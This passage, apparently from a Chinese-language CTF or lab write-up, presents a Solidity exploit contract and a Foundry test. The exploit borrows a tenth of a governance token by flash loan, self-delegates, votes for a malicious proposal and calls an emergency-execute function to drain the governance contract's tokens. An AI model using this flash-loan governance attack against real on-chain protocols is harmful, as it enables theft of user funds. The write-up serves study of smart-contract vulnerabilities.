 ```solidity 
        pid = g.propose(_addr, _value, _sig, _desc);
    }
    function Hack() public {
        a.flashLoan(
            IERC3156FlashBorrower(address(this)),
            address(a),
            a.totalSupply() / 10,
            ""
        );
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        a.delegate(address(this));
        address[] memory _addr = new address[](1);
        _addr[0] = ProposalAddress;
        uint256[] memory _value = new uint256[](1);
        _value[0] = 0;
        bytes[] memory _sig = new bytes[](1);
        _sig[0] = abi.encodeWithSignature("executeProposal()");
        string memory _desc = "114514";
        g.castVote(pid, 1);
        g.emergencyExecuteRightNow(_addr, _value, _sig, keccak256(bytes(_desc)));
        a.increaseAllowance(address(a), amount + fee);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

首先在构造函数中我们使用了构造了恶意提案并且进行了提案。

- targets即为提案的合约地址
- values指提案需要发送的values，这里不用，我们设为0
- calldatas为执行提案的calldata，这里我们填入executeProposal的signature即可
- description为提案的描述，这里我们随便填一个数

完成提案后我们得到了提案的id，记为pid，在后续执行提案时会用到。

接下来便是我们的闪电贷合约，这里我们选择贷走10%的token，符合了紧急执行提案的条件，同时也尽量减少了闪电贷的手续费。

闪电贷的逻辑中，我们首先将代理投票权给了hacker。然后进行投票，投1即是支持(for)。

之后进行了紧急执行，执行之后再授权给AAA合约amount+fee的额度以偿还闪电贷。

至此，攻击完成了，gov合约中的所有token都被转移到了hacker合约中。

### 攻击流程

```solidity
function testexp() public {
        console.log("token:",address(token));
        console.log("gov:",address(gov));
        hacker = new Hacker(address(token),address(gov));

        console.log("Hacker Address", address(hacker));
        vm.roll(12);
        console.log("block number:",block.number);
        hacker.Hack();
        console.log("Balance of gov",token.balanceOf(address(gov)));
        console.log("Balance of hacker",token.balanceOf(address(hacker)));
    }
```